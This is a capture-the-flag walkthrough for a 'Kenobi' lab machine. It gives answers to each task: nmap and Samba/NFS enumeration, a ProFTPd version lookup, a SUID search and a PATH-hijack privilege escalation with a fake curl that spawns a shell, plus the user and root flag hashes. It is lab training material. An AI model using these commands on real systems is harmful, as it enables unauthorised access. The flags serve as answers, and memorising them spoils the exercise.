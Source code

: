 # Kenobi
Walkthrough on exploiting a Linux machine. Enumerate Samba for shares, manipulate a vulnerable version of proftpd and escalate your privileges with path variable manipulation.

## Task 1 Deploy the vulnerable machine

### Make sure you're connected to our network and deploy the machine
Deploy the machine

### Scan the machine with nmap, how many ports are open?

```
7
```

## Task 2 Enumerating Samba for shares

### nmap -p 445 --script=smb-enum-shares.nse,smb-enum-users.nse MACHINE_IP
Using the nmap command above, how many shares have been found?

```
3
```

### smbclient //<ip>/anonymous
Once you're connected, list the files on the share. What is the file can you see?

```
log.txt
```

### smbget -R smb://<ip>/anonymous
What port is FTP running on?
```
21
```

### nmap -p 111 --script=nfs-ls,nfs-statfs,nfs-showmount 10.10.186.207
What mount can we see?

```
/var
```


## Task 3 Gain initial access with ProFtpd

### What is the version?
```
1.3.5
```

### We can use searchsploit to find exploits for a particular software version.
Searchsploit is basically just a command line search tool for exploit-db.com.
How many exploits are there for the ProFTPd running?

```
3
```

### Lets mount the /var/tmp directory to our machine
What is Kenobi's user flag (/home/kenobi/user.txt)?

```
d0b0f3f53b6caa532a83915e19224899
```


## [Task 4] Privilege Escalation with Path Variable Manipulation

### What file looks particularly out of the ordinary? 
```
$ find / -perm -u=s -type f 2>/dev/null

/usr/bin/menu
```

### Run the binary, how many options appear?
```
3
```

### What is the root flag (/root/root.txt)?
```
echo /bin/sh > /tmp/curl
chmod 777 /tmp/curl
export PATH=/tmp:$PATH

/usr/bin/menu

cat /root/root.txt

177b3cd8562289f37382721c28381f02
```

